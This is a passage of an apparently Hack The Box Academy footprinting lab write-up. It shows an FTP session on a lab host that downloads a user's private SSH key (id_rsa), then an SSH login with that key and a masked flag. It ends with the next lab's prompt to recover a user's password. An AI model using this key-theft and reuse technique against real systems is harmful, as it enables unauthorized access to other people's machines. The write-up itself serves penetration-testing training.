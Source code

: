 ```
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete

ftp> cd .ssh

ftp> ls
229 Entering Extended Passive Mode (|||17057|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
226 Transfer complete

ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||1485|)
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
100% |**********************************************************************************************************|  3381        3.46 MiB/s    00:00 ETA
226 Transfer complete
```

```
┌──(nabla㉿kali)-[~]
└─$ chmod 600 id_rsa
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i id_rsa ceil@10.129.42.195

Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-90-generic x86_64)

[SNIP]

ceil@NIXEASY:~$ cat /home/flag/flag.txt 
HTB{7******************************************************* 📌
```

---

### Footprinting Lab - Medium

> This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.
> Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

Questions:
1. Enumerate the server carefully and find the username `HTB` and its password. Then, submit this user's password as the answer. `lnch7*******************`
